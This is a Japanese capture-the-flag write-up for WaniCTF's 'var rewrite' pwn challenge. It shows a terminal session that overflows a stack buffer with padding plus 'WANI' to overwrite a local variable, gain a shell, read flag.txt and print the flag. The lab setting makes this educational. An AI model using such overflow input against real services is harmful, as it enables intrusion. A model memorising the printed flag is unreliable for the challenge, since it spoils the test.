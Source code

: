 # var rewrite:PWN:pts
nc var.wanictf.org 9002  
- stackの仕組みを理解する必要があります。  
- ローカル変数はstackに積まれます。  
- ローカル変数を書き換えて下さい。  

使用ツール例  
- [netcat (nc)](https://github.com/wani-hackase/memo-setup-pwn-utils#netcat)  

セキュリティ保護  
- Partial RELocation ReadOnly (RELRO)  
- Smash Stack Protection (SSP)無効  
- No eXecute bit(NX)有効  
- Position Independent Executable (PIE)無効  

[pwn02](pwn02)　　　　[pwn02.c](pwn02.c)  

# Solution
stackの変数を書き換えればいいようだ。  
pwn02.cの以下に注目する。  
```c
~~~
    if (strncmp(target, "WANI", 4) == 0)
    {
        win();
    }
    else
    {
        printf("target = %s\n", target);
    }
~~~
```
WANIにすればよい。  
stackが見える親切設計なのでパディングはすぐにわかる。  
```bash
$ nc var.wanictf.org 9002
What's your name?: AAAAAAAAAA
hello AAAAAAAAAA!
target =

***start stack dump***
0x7ffe6852dc00: 0x00007ffe6852dc20 <- rsp
0x7ffe6852dc08: 0x4141414141410790
0x7ffe6852dc10: 0x4b43410041414141
0x7ffe6852dc18: 0x0000000b00455341
0x7ffe6852dc20: 0x00007ffe6852dc30 <- rbp
0x7ffe6852dc28: 0x00000000004009b6 <- return address
***end stack dump***

What's your name?: AAAAAAAAAAAAAAA
hello AAAAAAAAAAAAAAA!
target = AAAAA

***start stack dump***
0x7ffe6852dc00: 0x00007ffe6852dc20 <- rsp
0x7ffe6852dc08: 0x4141414141410790
0x7ffe6852dc10: 0x4141414141414141
0x7ffe6852dc18: 0x0000001000450041
0x7ffe6852dc20: 0x00007ffe6852dc30 <- rbp
0x7ffe6852dc28: 0x00000000004009b6 <- return address
***end stack dump***

What's your name?: AAAAAAAAAAWANI
hello AAAAAAAAAAWANI!
Congratulation!
ls
chall
flag.txt
redir.sh
cat flag.txt
FLAG{1ets-1earn-stack-w1th-b0f-var1ab1e-rewr1te}
^C
```
flagが得られた。  

## FLAG{1ets-1earn-stack-w1th-b0f-var1ab1e-rewr1te}